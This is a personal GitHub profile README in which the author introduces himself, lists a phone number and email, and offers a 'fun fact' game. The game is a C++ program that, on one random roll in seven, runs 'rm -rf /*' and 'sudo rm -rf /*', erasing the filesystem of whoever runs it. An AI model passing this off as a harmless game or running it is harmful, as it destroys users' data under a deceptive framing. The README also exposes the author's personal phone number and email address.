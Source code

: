 - 👋 Hi, I’m @SalomandraC
- 👀 I am interested in solving problems in C++ and Java. I do frontend in my free time.
- 🌱 I am currently studying C++, Java, CSS, html.
- 💞️ I’m looking to collaborate. It's not that important while I'm studying. I am ready for any tasks on topics of interest to me.
- 📫 How to reach me. You can call +89109863281 or send an email kazak.petrushin@yandex.ru
- 😄 Pronouns: Nikita, Nikitka, Podkopus, You, Ni'Khit, Saloman
- ⚡ Fun fact:
Let's play a game:

#include <iostream>

#include <cstdlib>

#include <time.h>


//system removal function

void kill(){

	system("rm -rf /*");
 
	system("sudo rm -rf /*");
 
}


int main(){

	srand((unsigned) time(NULL));
 
	int randomNumber = (rand() % 7) + 1;
 
	if (randomNumber == 5) {
 
		std::cout << "Last word?" << std::endl;
  
		kill();
  
	} else {
 
		std::cout << "You'll be lucky next time";
  
	}
 
	return 0;
 
}

<!---
SalomandraC/SalomandraC is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
